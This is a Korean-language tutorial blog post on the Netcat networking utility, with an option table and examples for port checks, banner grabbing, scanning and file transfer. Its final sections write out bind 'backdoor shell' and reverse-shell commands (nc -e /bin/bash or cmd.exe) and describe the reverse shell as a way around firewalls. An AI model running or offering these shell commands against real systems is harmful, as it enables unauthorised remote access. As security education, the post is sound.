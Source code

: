 ```yaml
---
layout: post
title: "Netcat"
tags: [정보보안, 툴]
comments: true
---
```


Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임

![image](https://github.com/what0302/what0302.github.io/assets/18510716/8435fd52-6470-4f27-b877-4444db4f6420/800*400)

##### 출처 링크: [KOROMOON][KOROMOONlink]
[KOROMOONlink]: https://koromoon.blogspot.com/2018/01/netcat.html "Go KOROMOON"

## (1) 설명

Netcat 은 TCP 나 UDP 프로토콜을 사용하는 네트워크 연결에서 데이터를 읽고 쓰는 유틸리티 프로그램임.<br><br>
일반적으로 UNIX 의 cat 명령어와 비슷한 사용법을 가지고 잇지만 cat 명령어를 통해 파일에 쓰거나 읽듯이 Netcat 툴은 네트워크에 읽거나 쓸 수 있음.<br><br>
이것은 스크립트와 병용하여 네트워크에 대한 디버깅, 테스트 툴로써 매우 편리하고 원하는 포트로 원하는 데이터를 주고 받을 수 있는 특징 때문에 악의적으로 사용할 수 있음.<br><br>
또한, 컴퓨터 포렌식에 있어서 라이브 시스템의 데이터를 손상없이 가져오기 위해서도 사용될 수 있음.<br>
원하는 거의 모든 종류의 접속 형태를 만들어 낼 수 있고 흥미로운 몇 가지 내장 기능을 가지고 있기 때문에 다기능의 네트워크 문제해결 및 조사 시에 유용하게 사용 가능함.<br><br>

윈도우 다운로드 : [http://eternallybored.org/misc/netcat/](http://eternallybored.org/misc/netcat/)<br>
리눅스 다운로드 : [https://sourceforge.net/projects/nc110/](https://sourceforge.net/projects/nc110/)<br><br>

참고로 SANS 에서 제공하는 Netcat Cheat Sheet 파일은 아래 링크에서 다운받으세요.<br>
https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf<br><br><br>

## (2) 사용법
</br><div align="center">![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/3c135ca7-33d8-4e69-8203-e7da33b4347c)</div><br>
<br>
※ 아래 옵션은 netcat-win32-1.12 버전을 기준으로 정리함.<br><br>

어딘가에 연결 시 : `nc [-options] hostname port[s] [ports] ...`<br>
인바운드 수신 대기 시 : `nc -l -p port [options] [hostname] [port]`<br><br>

옵션 :<br><br>
<table border="1" cellpadding="0" cellspacing="0" class="MsoTableGrid" style="border-collapse: collapse; border: none; mso-border-alt: solid windowtext .5pt; mso-padding-alt: 0cm 5.4pt 0cm 5.4pt; mso-yfti-tbllook: 1184;">
 <tbody><tr>
  <td style="border: 1pt solid windowtext; mso-border-alt: solid windowtext .5pt; padding: 0cm 5.4pt; width: 461.2pt;" valign="top" width="615">
  <p align="left" class="MsoNoSpacing"><i><span lang="EN-US"><span style="font-family: courier;">
        -d              콘솔에서 분리되어 백그라운드 모드로 실행<br>
        -e prog         커넥션(Connection)이 이루어졌을 때 후 프로그램을 실행함 (위험!)<br>
        -g gateway      source-routing hop point[s]를 8씩 증가<br>
        -G num          source-routing point를 4, 8, 12 .. 4씩 증가<br>
        -h              도움말<br>
        -i secs         스캔된 포트로 전송된 회선의 지연 간격<br>
        -l              인바운드 커넥션을 위해서 listen 모드로 실행<br>
        -L              소켓 종료 시 재전송 실행<br>
        -n              IP 주소 입력 (DNS 을 사용하지 않음)<br>
        -o file         주고받은 데이터를 헥스 덤프(Hex Dump)하여 파일로 저장함<br>
        -p port         로컬 포트를 지정함<br>
        -r              로컬 이나 원격 포트를 임의로 지정함<br>
        -s addr         로컬 출발지 주소를 지정함<br>
        -t              Telnet 과 같은 협상 과정을 거치도록 설정함<br>
        -c              LF 대신 CRLF 를 보냄<br>
        -u              UDP 모드<br>
        -v              자세한 설명 모드 (더 자세한 정보를 표시하기 위해 두 번 사용)<br>
        -w secs         마지막으로 읽고 난 후 종료할 시간을 정함<br>
        -z              zero-I/O 모드 (스캔 시 사용)<o:p></o:p></span></span></i></p>
  </td>
 </tr>
</tbody></table><br>

참고로 포트 범위는 개별 또는 범위(m-n)일 수 있음.<br><br><br>

## (3) 사용 예
1. 특정 포트에 대한 연결 수립<br><br>
원격 IP 의 특정 포트로 연결하여 Open 되어 있는 여부를 확인함.<br><br>
`nc [IP] [Port]`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj26vMovg5synzLGTccviKy3Bh7Fwr9vyJpIEcvNV3O3P_0DR1nvyOh7SbB6BHb0eiqnaYrzV5_Vo75s2gjgF2CPFcuClNe8JDaIMEqh8GzYhAVdkQoOIJ2BwHIjcJMrLlP1UCYigKdAOE/s1600/%25ED%258A%25B9%25EC%25A0%2595+%25ED%258F%25AC%25ED%258A%25B8%25EC%2597%2590+%25EB%258C%2580%25ED%2595%259C+%25EC%2597%25B0%25EA%25B2%25B0+%25EC%2588%2598%25EB%25A6%25BD.png"></div><br><br>

2. 서비스 배너 수집<br><br>
다양한 서비스를 대상으로 그대로 사용할 수 있음.<br>
하지만 HTTP 서비스는 HTTP 헤더 양식을 전송해줘야 함.<br><br>
`echo -e "HEAD / HTTP/1.0\n\n" | nc [IP] 80`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgoaWHzRs5Eysrtj7MwxJwG93oiVnlK0lhMfsw458wNV7xJYfmxaXrF4mYtIJa-S3t6HVqeSGTxlGrjFngRQHSYpugvkM1nkyIBDjfsZwvRPJxWPNmBe3h70eUUK9qlR8mfkzHGiNtpOzQ/s1600/%25EC%2584%259C%25EB%25B9%2584%25EC%258A%25A4+%25EB%25B0%25B0%25EB%2584%2588+%25EC%2588%2598%25EC%25A7%2591.png"></div><br><br>

3. 포트 스캐닝<br><br>
TCP 프로토콜을 사용하여 특정 포트나 포트 범위를 스캔함.<br><br>
`nc -n -v -z -w 1 [IP] [포트 범위]`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEh13c9lcWxw5TwLBJpjyNLUm_NZ3zAsQujCfqBInGQ77S6RUAJ5DL5lzdX37VcE_8vbXM0Ux9quTZPYrTjypVuipPBIiaHJcl7cBBkknPy6ikZF1FYbGhW6EZh2m5FDpTQ_PUZ_ut1jwxc/s1600/%25ED%258F%25AC%25ED%258A%25B8+%25EC%258A%25A4%25EC%25BA%2590%25EB%258B%259D.png"></div><br><br>

4. 파일 전송<br><br>
클라이언트(윈도우) -> 서버(Kali Linux)로 파일 전송<br><br>
클라이언트<br>
`nc -w3 [IP] [Port] < [파일명]`<br><br>
서버<br>
`nc -l -p [Port] > [파일명]`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhLJghqkvJi7EEYkN5gOMcpHOrLAssBsvMkaFseVbjUZ26uWPYWigxTUkSpL_d-qDlSow1hVAbyeoPkAOwBYLI3MS_Orkt2YY6K1u9fsnUeuI1sjW0aTab7uavss0mjGbiAAaZgcuNqs9Y/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_1.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhesAfNu5IJ2nouAur7moiNTHJ-NOV99AZq0ScVga1EFcziWg7qjVBuvRycwNYQPLW3NHvxT-McO7iDvJXYUtvqK5Xlni5ZMjG3pujhXPey6-JA_GrJOqfUq2rKIVCTI18j1eYIKashfuM/s1600/%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8%2528%25EC%259C%2588%25EB%258F%2584%25EC%259A%25B0%2529-%25EC%2584%259C%25EB%25B2%2584%2528Kali+Linux%2529%25EB%25A1%259C+%25ED%258C%258C%25EC%259D%25BC+%25EC%25A0%2584%25EC%2586%25A1_2.png"></div><br><br>

5. 백도어 쉘 (Backdoor Shell)<br><br>
Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 특정 포트(-p)에서 listen 모드(-l)로 실행하여 연결 수립 시 특정 쉘을 실행(-e)하도록 옵션을 지정하는 방식임.<br><br>

리눅스 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 백도어 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhBdx0Kzn5FlS4vy-O59_HtqxLVa1amIMhFdxbKwmRBLxk_HUM-LPMLg6asSVyahZohOVEMXvrNGzvjSY0osxM9mJOwuSfXV2Ck_u8AcP4XqCydi61KwSpbA8CAyPt8xx7_e_7x1OHXt0U/s1600/Backdoor+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhSZei4HxKQGGb3QYa8gsdrbxiTfBQp15VwdjTCm0jfB2U2xEm3E70xUFhmq4tmR4BclG12RoUtChqnRztb-o6iqerwGEVeFL99ZTZoB9R2Mvbs1z4xA2pDatgcHElAgdSsbyafrpimIRw/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B81.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhJ9VfZoyrHFHhQ4ldYU6bQfgrH8yPhikT1dCuZSx_Oi9giWq-mohcOVc_WjqC46L_vlEJO_ikY1NLBYquwb9pR1E1zNDUAmJsumn9Q_8wa71aRwDqaYxLCpv3FfFCSAjVnDblt6_c-Dt8/s1600/Backdoor+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B82.png"></div><br>
위 스샷에서 서버(Kali Linux) 측 쉘에 접속 후 명령어 뒤에 세미콜론 문자(;)를 덧붙여야 함.<br>
(사용하는 클라이언트 마다 다를 수 있음)<br><br>

6. 리버스 쉘 (Reverse Shell)<br><br>

**Netcat 툴을 이용한 백도어 쉘의 기본 매커니즘은 백도어 쉘과는 반대로 보통 서버 앞단에 방화벽을 우회하기 위해서 리버스 쉘을 이용함.**<br>
**방화벽에서 허용된 나가는 포트를 이용하여 클라이언트 측에서 쉘을 실행시킨 후 서버 측에서 접속함.**<br><br>

리눅스 환경(서버)에서 리버스 쉘<br>
`nc [자신의 IP 주소] [포트] -e /bin/bash`<br><br>

윈도우 환경(서버)에서 리버스 쉘<br>
`nc -l -p [로컬 포트] -e cmd.exe`<br>
`nc [자신의 IP 주소] [포트] -e cmd.exe`<br>

<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjQWHXV2Sba-_p1a2eB8zqbCVgQqAaJ-aakB2RXHV05B8I5LH3zkcIdkmRvxFy9QyqSSzzSo51nKxzc_Y1Yiv1OCaR6kd6H-8zVXYHyACv0Bwx7TSVirNYVyC6tbfCSndhpXyRI8ys7-3M/s1600/Reverse+Shell+%25EC%2584%259C%25EB%25B2%2584.png"></div><br>
<div align="center"><img src ="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgILlZyiTOyqIOo5Gchyphenhyphen5sn1Ypk0XQImvPwJXuZrrCA_Kt0TiyL3tUHnGclcnSH5-Un9W5DhwrzuIr-H6k6lnpD-PmHOP80Y6bl4sny7yyx6yEUxVGKL5elIWNmSDI5UqHXT9RSVTLAjn8/s1600/Reverse+Shell+%25ED%2581%25B4%25EB%259D%25BC%25EC%259D%25B4%25EC%2596%25B8%25ED%258A%25B8.png"></div><br>

